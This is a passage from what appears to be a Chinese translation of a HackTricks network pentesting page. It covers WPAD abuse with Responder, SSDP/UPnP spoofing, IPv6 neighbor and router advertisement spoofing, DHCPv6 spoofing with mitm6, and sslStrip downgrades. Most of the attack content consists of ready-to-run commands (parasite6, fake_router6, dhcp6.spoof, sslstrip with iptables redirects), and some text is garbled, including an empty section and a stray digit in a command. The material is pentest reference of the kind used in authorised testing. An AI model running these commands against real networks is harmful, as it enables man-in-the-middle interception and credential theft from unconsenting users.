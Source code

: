 - 通过 DHCP，通过使用特殊代码 252 条目来促进发现。
- 通过 DNS，这涉及在本地域中搜索标记为 wpad 的主机名。
- 通过 Microsoft LLMNR 和 NBT-NS，它们是在 DNS 查找不成功的情况下使用的回退机制。
工具 Responder 通过充当恶意 WPAD 服务器来利用此协议。它使用 DHCP、DNS、LLMNR 和 NBT-NS 来误导客户端连接到它。要更深入地了解如何使用 Responder 模拟服务，请查看 此 。

### 欺骗 SSDP 和 UPnP 设备

你可以在网络中提供不同的服务，以尝试诱骗用户输入一些纯文本凭据。 有关此攻击的详细信息 [欺骗 SSDP 和 UPnP 设备](https://book.hacktricks.xyz/generic-methodologies-and-resources/pentesting-network/spoofing-ssdp-and-upnp-devices)。

### IPv6 Neighbor Spoofing IPv6 邻居欺骗

这种攻击与 ARP 欺骗非常相似，但在 IPv6 世界中。你可以让受害者认为GW的IPv6有攻击者的MAC。
```
sudo parasite6 -l eth0 # This option will respond to every requests spoofing the address that was requested
sudo fake_advertise6 -r -w 2 eth0 <Router_IPv6> #This option will send the Neighbor Advertisement packet every 2 seconds
```

### IPv6 路由器通告欺骗/泛洪

默认情况下，某些操作系统会根据网络中发送的 RA 数据包配置网关。要将攻击者声明为 IPv6 路由器，您可以使用：

```
sysctl -w net.ipv6.conf.all.forwarding=1 4
ip route add default via <ROUTER_IPv6> dev wlan0
fake_router6 wlan0 fe80::01/16
```

### IPv6 DHCP spoofing IPv6 DHCP 欺骗
默认情况下，某些操作系统会尝试配置读取网络中 DHCPv6 数据包的 DNS。然后，攻击者可以发送 DHCPv6 数据包以将自己配置为 DNS。DHCP 还向受害者提供 IPv6。
```
dhcp6.spoof on
dhcp6.spoof.domains <list of domains>

mitm6
```

### HTTP (fake page and JS code injection)  HTTP（假页面和JS代码注入）

## Internet Attacks 互联网攻击

### sslStrip

基本上，这种攻击的作用是，以防用户尝试访问重定向到HTTPS版本的HTTP页面。 sslStrip 将保持与客户端的 HTTP 连接以及与服务器的 HTTPS 连接，因此它无法以纯文本形式嗅探连接。
```
apt-get install sslstrip
sslstrip -w /tmp/sslstrip.log --all - l 10000 -f -k
#iptables --flush
#iptables --flush -t nat
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 10000
iptables -A INPUT -p tcp --destination-port 10000 -j ACCEPT
```
